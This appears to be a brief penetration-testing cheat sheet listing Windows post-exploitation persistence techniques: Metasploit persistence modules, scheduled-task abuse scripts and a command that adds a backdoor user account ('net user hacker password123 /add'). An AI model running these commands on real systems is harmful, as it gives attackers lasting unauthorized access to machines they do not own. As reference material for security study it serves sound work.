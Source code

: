 1. **Persistence Scripts**
	- run persistence -h 
	- exploit/windows/local/persistence
	- exploit/windows/local/registry_persistence

2. **Scheduled Tasks**
	- run scheduleme
	- run schtaskabuse

3. **Add a user**
	- net user hacker password123 /add